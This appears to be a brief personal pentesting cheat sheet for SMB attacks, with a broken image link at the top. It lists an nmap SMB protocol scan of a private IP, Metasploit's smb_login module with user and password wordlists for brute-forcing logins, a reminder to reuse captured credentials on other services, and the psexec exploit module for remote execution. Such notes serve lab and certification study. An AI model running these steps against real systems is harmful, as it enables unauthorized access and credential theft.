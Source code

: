

- nmap -p445 --script smb-protocols 10.0.0.242
- use auxiliary/scanner/smb/smb_login 
	- set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt 
	- set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
	- save all creds for other services 
- use exploit/windows/smb/psexec

